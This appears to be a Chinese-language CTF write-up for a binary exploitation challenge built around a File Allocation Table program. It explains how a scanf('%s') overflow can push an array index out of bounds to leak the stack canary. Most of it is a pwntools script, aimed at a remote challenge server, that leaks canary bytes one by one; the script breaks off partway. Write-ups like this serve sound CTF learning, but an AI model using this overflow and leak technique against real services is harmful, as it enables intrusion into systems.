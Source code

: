 开启了`canary`保护，还有一个后门。在`write`和`edit`的时候使用的`__isoc99_scanf("%s", nptr);`会造成任意长度溢出，但是并不知道`canary`的值。程序本身是一个`File Allocation Table`，通过`FAT[]`数组寻找下一个字符的下标，例如`FAT[1] = 12`那么1之后就要去找12。这里有一个[很棒的视频](https://www.youtube.com/watch?v=V2Gxqv3bJCk)。

我们可以通过溢出覆盖`FAT[0]`的值为一个较大的数，造成数组超界。我们可以通过这个来leak canary。

## exp

```python
from pwn import *
context.log_level="DEBUG"
p = remote("101.200.201.114",30001)

def write(idx,content):
    p.sendlineafter('choice: ','1')
    p.sendlineafter('Index: ',str(idx))
    p.sendline(str(content))

def show():
    p.sendlineafter('choice: ','2')

def edit(idx,content):
    p.sendlineafter('choice: ','3')
    p.sendlineafter('Index: ',str(idx))
    p.sendline(str(content))

## xx xx xx xx xx xx xx 00
## +6 +5 +4 +3 +2 +1 +0 
write(0,'a')
write(1,'a')
payload = p32(0)*4+p8(0x69)+'\x01'*111
edit(payload,'a')
show()
p.recvuntil('a')
bit_1 = u8(p.recv(1))
print(hex(bit_1))

payload = p32(0)*4+p8(0x69+1)+'\x01'*111
edit(payload,'a')
show()
p.recvuntil('a')
bit_2 = u8(p.recv(1))
print(hex(bit_2))

payload = p32(0)*4+p8(0x69+2)+'\x01'*111
edit(payload,'a')
show()
p.recvuntil('a')
bit_3 = u8(p.recv(1))
print(hex(bit_3))

payload = p32(0)*4+p8(0x69+3)+'\x01'*111
edit(payload,'a')
show()
p.recvuntil('a')
bit_4 = u8(p.recv(1))
print(hex(bit_4))

payload = p32(0)*4+p8(0x69+4)+'\x01'*111
edit(payload,'a')
show()
p.recvuntil('a')
bit_5 = u8(p.recv(1))
print(hex(bit_5))
```
